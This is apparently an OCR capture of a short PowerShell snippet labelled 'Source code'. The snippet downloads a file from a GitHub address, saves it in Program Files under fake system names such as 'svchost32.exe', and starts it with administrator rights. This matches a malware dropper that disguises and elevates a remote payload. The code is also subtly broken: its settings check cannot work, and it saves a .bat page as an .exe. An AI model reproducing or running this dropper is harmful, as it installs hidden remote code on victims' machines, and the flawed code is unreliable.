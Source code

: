 $settings = '{"WD": false, "adminrun": false}'; if ($settings.adminrun) { $outputPath = Join-Path $env:programfiles 'winlog32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/k9g4/naseer/blob/main/yaz2.bat", $outputPath); Start-Process $outputPath -Verb RunAs } else { $outputPath = Join-Path $env:programfiles 'svchost32.exe'; (New-Object System.Net.WebClient).DownloadFile("https://github.com/k9g4/naseer/blob/main/yaz2.bat", $outputPath); Start-Process $outputPath -Verb RunAs };
